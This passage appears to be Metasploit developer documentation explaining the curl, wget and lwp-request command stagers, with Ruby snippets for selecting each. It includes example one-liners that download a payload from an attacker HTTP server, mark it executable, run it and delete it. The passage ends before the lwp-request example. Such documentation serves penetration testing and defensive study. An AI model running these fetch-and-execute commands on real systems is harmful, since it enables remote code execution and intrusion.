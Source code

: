 ## cURL Command Stager - Multi Platform

The [cURL](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/curl.rb) command stager uses the `curl` command on the target host to download the payload file. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```bash
curl -so /tmp/dtNGlaaL http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/dtNGlaaL;/tmp/dtNGlaaL;rm -f /tmp/dtNGlaaL"
```
To use the cURL stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'curl' ]
```

Or set the :curl key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :curl)
```


## wget Command Stager - Multi Platform

The [wget](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/wget.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `wget` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:

```bash
wget -qO /tmp/MZXxujch http://10.5.135.201:8080/mdkwKcdGCtU;chmod +x /tmp/MZXxujch;/tmp/MZXxujch;rm -f /tmp/MZXxujch
```

To use the wget stager, either specify your CmdStagerFlavor in the metadata:

```ruby
'CmdStagerFlavor' => [ 'wget' ]
```

Or set the :wget key to `execute_cmdstager`:

```ruby
execute_cmdstager(flavor: :wget)
```


## LWP Request Command Stager - Multi Platform

The [lwp-request](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/lwprequest.rb) command stager is similar to the curl command stager, except instead of using curl to download the file on the target host, it uses the `lwp-request` command. It requires users to specify a `SRVHOST` and `SRVPORT` values and will start an HTTP server to host the payload file. An example of that looks similar to this:
